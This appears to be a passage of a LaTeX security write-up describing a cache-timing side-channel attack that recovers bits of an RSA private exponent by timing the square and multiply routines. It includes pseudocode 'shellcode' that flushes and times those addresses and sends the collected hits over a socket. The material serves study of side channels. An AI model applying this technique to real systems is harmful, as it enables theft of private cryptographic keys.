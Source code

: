\documentclass[a4paper]{article}
\begin{document}
Our first attempt was to continuously measure the "multiply" and "square" functions, the results appeared to be correct, but a lot of noise was present in the measurements. To reduce this noise, we have reduced the probe frequency by consuming cycles between each measurement. With a good frequency results can be shown in Figure \ref{hits}.\newline

\begin{figure}[H]
    \center
    \includegraphics[scale=0.35]{hits}
    \caption{First bits extraction: multiply and square cache hits}
    \label{hits}
\end{figure}

To extract all the bit from the "d" parameter, the total time of the RSA operations should be monitored, to adjust the number of measurement, cache hit and cache miss are added to a graph, the RSA operations are clearly visible (see Figure \ref{RSA_operations}).


\begin{figure}[H]
    \center
    \includegraphics[scale=0.35]{RSA_operations}
    \caption{RSA operations}
    \label{RSA_operations}
\end{figure}

The shellcode used to get these results is summarized by the following pseudo-code:

\begin{lstlisting}[language=python,caption={Shellcode pseudocode},numbers=none,style=colortilde]
#!/usr/bin/pseudocode

number_of_measurement=25000
SOCKET_TO_STPM.send("3\n2\n0\n"+enckey+"\n")

count=0
result=[]
while( count < number_of_measurement ):
	a=rdtsc()
	get_addr_value(SQUARE_ADDR)
	b=rdtsc()
	clflush(SQUARE_ADDR)
	if b - a < 200:
		result.append(2) # hit square
	else:
		a=rdtsc()
		get_addr_value(MULTIPLY_ADDR)
		b=rdtsc()
		clflush(MULTIPLY_ADDR)
		if b - a < 200:
			result.append(1) # hit multiply
		else
			result.append(0) # no hit
	wait()
	count+=1

SOCKET_TO_CLIENT.send(result)
exit(0)
\end{lstlisting}
\end{document}
